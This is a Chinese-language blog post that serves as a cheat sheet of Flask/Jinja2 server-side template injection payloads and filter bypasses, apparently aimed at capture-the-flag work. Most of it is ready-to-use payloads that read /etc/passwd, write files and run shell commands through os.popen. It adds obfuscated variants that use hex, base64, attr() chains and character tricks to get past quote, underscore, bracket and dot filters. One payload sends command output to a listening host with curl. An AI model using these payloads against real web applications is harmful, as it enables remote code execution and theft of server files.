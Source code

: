 ```yaml
---
layout:     post
title:      Flask ssti
subtitle:   总结一下ssti常见payload 和 绕过方式
date:       2020-05-20
author:     BY Diego
header-img: img/wenzhang/post-bg-flask-ssti.jpg
catalog: true
tags:
    - Python
    - 命令注入
---
```


# 一、 常见payload

```
__class__ 返回调用的参数类型
__bases__ 返回类型列表
__mro__ 此属性是在方法解析期间寻找基类时考虑的类元组
__subclasses__() 返回object的子类
__globals__ 函数会以字典类型返回当前位置的全部全局变量 与 func_globals 等价
__getattribute__ 使用实例访问属性时,调用该方法
__dict__ 查看方法
```

获取object

```python
''.__class__.__mro__[2]  #python2
''.__class__.__mro__[1] #python3
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[8] #针对jinjia2/flask为[9]适用 [10]
```

类似request的还可以利用 url_for, g, request, namespace, lipsum, range, session, dict, get_flashed_messages, cycler, joiner, config

通过self.\_\_dict__ 查看


**获取索引**
```python
''.__class__.__mro__[2].__subclasses__().index(file)
```

**读文件**
python2
```python
().__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()

''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()
```
python3
```python
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
```

**写文件**
```python
().__class__.__bases__[0].__subclasses__()[40]('/tmp').write('test')

''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('test').write("test")
```

**执行命令**
python3
```python
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}
```
python2 (针对catch_warnings模块，python3也可只要知道模块对应位置)
```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen("whoami").read()
```
还有下面方法，直接贴别人图了，（懒）
[![Y5LJMj.png](https://s1.ax1x.com/2020/05/19/Y5LJMj.png)](https://imgchr.com/i/Y5LJMj)

**使用脚本寻找(因环境而异)**
```python
_list =[].__class__.__base__.__subclasses__()
for c in _list:
	try:
		if "open" in c.__init__.__globals__['__builtins__']:
			print(c.__name__,_list.index(c))
	except Exception as e:
		pass
```
读文件
```python
{{[].__class__.__base__.__subclasses__()[对应数].__init__.__globals__['__builtins__'].open("/etc/passwd").read()}}
```
[![Y5LYss.png](https://s1.ax1x.com/2020/05/19/Y5LYss.png)](https://imgchr.com/i/Y5LYss)

命令执行找eval 或者\_\_import__,除去引用os模块还可以用其他可执行命令的模块 commands 等
```python
{{[].__class__.__base__.__subclasses__()[对应数字].__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()")}}

{{[].__class__.__base__.__subclasses__()[对应数字].__init__.__globals__['__builtins__'].__import__('os').popen('whoami').read()}}
```


# 二、 绕过

## ① 单双引号过滤
```python
__init__.__globals__['__builtins__']
# 转化成如下形式
__init__.__globals__.__builtins__
```

使用"request.args" 或者 "request.values"
python2 读举例
```python
?name={{().__class__.__bases__[0].__subclasses__()[40](request.args.aa).read()}}&aa=/etc/passwd
```
values 同理 数据为post

还可用set 语句
```python
{%set chr=[].__class__.__base__.__subclasses__()[61].__init__.__globals__.__builtins__.chr%}{{[].__class__.__base__.__subclasses__()[40](chr(47)+chr(102)+chr(108)+chr(97)+chr(103)).read()}}
```

## ② 下划线过滤
**使用"request.args" 或者 "request.values"**
```python
?name={{[][request.args.class][request.args.base][request.args.sub]()[40]('/etc/passwd').read()}}&class=__class__&base=__base__&sub=__subclasses__
```
![YI1Af0.png](https://s1.ax1x.com/2020/05/19/YI1Af0.png)

**args values 被过滤？？**
```python
{{request.headers['X-Forwarded-For']}}
```
![Yo6Wwj.png](https://s1.ax1x.com/2020/05/20/Yo6Wwj.png)

**畸形方法获取_**
```python
[[]|map|string|list][0][20]
```
[![YoDrKH.png](https://s1.ax1x.com/2020/05/20/YoDrKH.png)](https://imgchr.com/i/YoDrKH)


先将
```python
[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()
```
转化成如下
```python
{{[[]|attr('__class__')|attr('__base__')|attr('__subclasses__')()][0][40]('/etc/passwd')|attr('read')()}}
```
再利用join特性将_分离([1,2,3]|join 结果为123)
```python
{{[[]|attr(['_'*2,'class','_'*2]|join)|attr(['_'*2,'base','_'*2]|join)|attr(['_'*2,'subclasses','_'*2]|join)()][0][40]('/etc/passwd')|attr('read')()}}
```
最后_替换[[]|map|string|list][0][20]
```python
{{[[]|attr([[[]|map|string|list][0][20]*2,'class',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'base',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'subclasses',[[]|map|string|list][0][20]*2]|join)()][0][40]('/etc/passwd')|attr('read')()}}
```
![Yor8W8.png](https://s1.ax1x.com/2020/05/20/Yor8W8.png)

## ③ 中括号被过滤

利用该特性a\[2]== a.\_\_getitem__(2)
```python
{{().__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(40)('/etc/passwd').read()}}
```

## ④ 过滤{{
利用{%%}
```python
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://127.0.0.1:7999/?i=`whoami`').read()=='p' %}1{% endif %}
```
相当于盲命令执行，利用curl将执行结果带出来
或者而类似布尔注入

## ⑤ 关键字绕过
**base64编码绕过**
\_\_getattribute__使用实例访问属性时,调用该方法
```python
{{[].__getattribute__('X19jbGFzc19f'.decode('base64')).__base__.__subclasses__()[40]("/etc/passwd").read()}}
```

**字符串拼接绕过**
```python
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['__buil'+'tins__']
```

**format函数**
```python
{{'fl{0}g'.format('a')}}
```
![YoyfG6.png](https://s1.ax1x.com/2020/05/20/YoyfG6.png)
## ⑥ . 被过滤
使用原生JinJa2函数|attr()
```python
?name={{()[(request|attr("args"))["class"]][(request|attr("args"))["base"]][(request|attr("args"))["sub"]]()[40]('/etc/passwd').read()}}&class=__class__&base=__base__&sub=__subclasses__
```

另一种形式（其他编码也可base64等）
```python
{{[]["5F5F636C6173735F5F"["decode"]("hex")]["5F5F626173655F5F"["decode"]("hex")]["5F5F737562636C61737365735F5F"["decode"]("hex")]()[40]("/etc/passwd")["72656164"["decode"]("hex")]()}}
```
![YoGozq.png](https://s1.ax1x.com/2020/05/20/YoGozq.png)

变形
```python
{{[]['\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f']['\x5f\x5f\x62\x61\x73\x65\x5f\x5f']['\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f']()[40]('/etc/passwd')['\x72\x65\x61\x64']()}}
```

畸形方法
获取·
```python
{{[1|float|string|list][0][1]}}
```
![Yo0pqI.png](https://s1.ax1x.com/2020/05/20/Yo0pqI.png)

## ⑦ 下划线、引号、中括号 被过滤

利用上述方法进行组合，构造如下payload

```python
?name={{((()|attr(request.args.class)|attr(request.args.base)|attr(request.args.sub)())|attr(request.args.geti)(40)(request.args.file)).read()}}&class=__class__&base=__base__&sub=__subclasses__&geti=__getitem__&file=/etc/passwd
```
![YIwr6A.png](https://s1.ax1x.com/2020/05/19/YIwr6A.png)

# 三、参考

[SSTI: Bypass in a hard place, Fort Knox — ASIS Quals 2019](https://medium.com/@elberandre/ssti-bypass-in-a-hard-place-fort-knox-asis-quals-2019-91bc35a349d3)

[SSTI Bypass 分析](https://www.secpulse.com/archives/115367.html)

[Flask/Jinja2模板注入中的一些绕过姿势](https://p0sec.net/index.php/archives/120/)

[浅析SSTI(python沙盒绕过)](http://flag0.com/2018/11/11/%E6%B5%85%E6%9E%90SSTI-python%E6%B2%99%E7%9B%92%E7%BB%95%E8%BF%87/)
